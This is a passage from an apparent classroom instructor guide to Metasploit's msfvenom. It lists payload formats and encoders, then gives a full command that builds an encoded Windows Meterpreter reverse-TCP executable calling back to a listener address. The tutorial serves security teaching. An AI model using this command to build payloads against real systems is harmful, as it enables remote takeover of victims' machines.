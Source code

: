     - Run the following command: `msfvenom -l formats`

    - We're presented with a list of all the file formats in which payloads can be delivered, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_2.png)

4. List `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### Msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`
